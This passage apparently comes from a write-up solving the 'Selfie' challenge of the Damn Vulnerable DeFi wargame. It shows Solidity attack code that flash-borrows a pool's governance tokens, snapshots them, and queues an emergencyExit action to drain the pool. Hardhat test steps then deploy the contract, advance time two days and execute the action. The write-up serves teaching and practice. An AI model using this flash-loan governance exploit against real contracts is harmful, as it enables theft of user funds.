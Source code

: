 ```solidity
        max_loan    = pool.token().balanceOf(_pool);

        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(pool.token()), max_loan, "0x");
    }

    function letsAGoV2() public
    {
        gov.executeAction(1);
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32)
    {
        DamnValuableTokenSnapshot(token).snapshot();
        gov.queueAction(address(pool), 0, abi.encodeWithSignature("emergencyExit(address)", owner));

        DamnValuableTokenSnapshot(token).approve(address(pool), max_loan);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

In this testcase, we first need to deploy our contract and call the first function so that our action gets queued.

```js
const Attack_Selfie = await ethers.getContractFactory('Attack_Selfie', player);
attack = await Attack_Selfie.deploy();

//Use Flashloan to be able to queue your proposal
await attack.connect(player).letsAGo(pool.address, governance.address);
```

Then we have to wait for 2 days to be able to execute our action

```js
await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
```

After the 2 days we can finally execute our action using the second fun of the attack contract.

```js
await attack.connect(player).letsAGoV2();
```

This leads to us being able to execute the test case properly.
